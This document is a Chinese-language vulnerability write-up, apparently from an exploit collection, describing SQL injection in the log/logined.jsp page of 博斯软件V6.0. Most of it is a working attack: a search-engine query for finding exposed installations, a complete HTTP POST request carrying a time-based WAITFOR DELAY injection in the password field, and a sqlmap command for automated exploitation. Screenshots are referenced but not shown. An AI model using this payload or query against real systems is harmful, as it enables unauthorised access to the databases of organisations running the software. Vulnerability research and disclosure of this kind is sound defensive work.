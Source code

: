 # 博斯软件V6.0 存在 sql 注入

# 一、漏洞简介
福建博思软件股份有限公司博斯软件V6.0 log/logined.jsp存在SQL注入漏洞。

# 二、影响版本
+ 博斯软件V6.0

# 三、资产测绘
+ hunter`web.title:"欢迎使用 博斯软件"`
+ 特征

![1697813092548-472a2527-ceb8-41ff-874b-32ce4c0e7ebe.png](./img/qesLgT3zkCECCWG7/1697813092548-472a2527-ceb8-41ff-874b-32ce4c0e7ebe-167743.png)

# 四、漏洞复现
```java
POST /log/logined.jsp HTTP/1.1
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Cookie: JSESSIONID=80D835813F9733E867790648CBAA0EC6
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip,deflate
Content-Length: 106
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4298.0 Safari/537.36
Host: xx.xx.xx.xx
Connection: Keep-alive

Submit=-1A&account=-1password=g-1';WAITFOR DELAY '0:0:5'--
```

![1697813144963-54dfd143-ad16-466e-accc-847ad43268c6.png](./img/qesLgT3zkCECCWG7/1697813144963-54dfd143-ad16-466e-accc-847ad43268c6-568851.png)

sqlmap

```java
POST /log/logined.jsp HTTP/1.1
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Cookie: JSESSIONID=80D835813F9733E867790648CBAA0EC6
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip,deflate
Content-Length: 106
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4298.0 Safari/537.36
Host: xx.xx.xx.xx
Connection: Keep-alive

Submit=-1A&account=-1password=g-2
```

```java
sqlmap -r 1.txt --batch --level 3 --thread 5
```

![1697813586437-c2b66328-c97f-4130-b663-8b4fe9ae5e07.png](./img/qesLgT3zkCECCWG7/1697813586437-c2b66328-c97f-4130-b663-8b4fe9ae5e07-922009.png)



> 更新: 2024-02-29 23:55:47  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/zprm44mso2ysykrg>
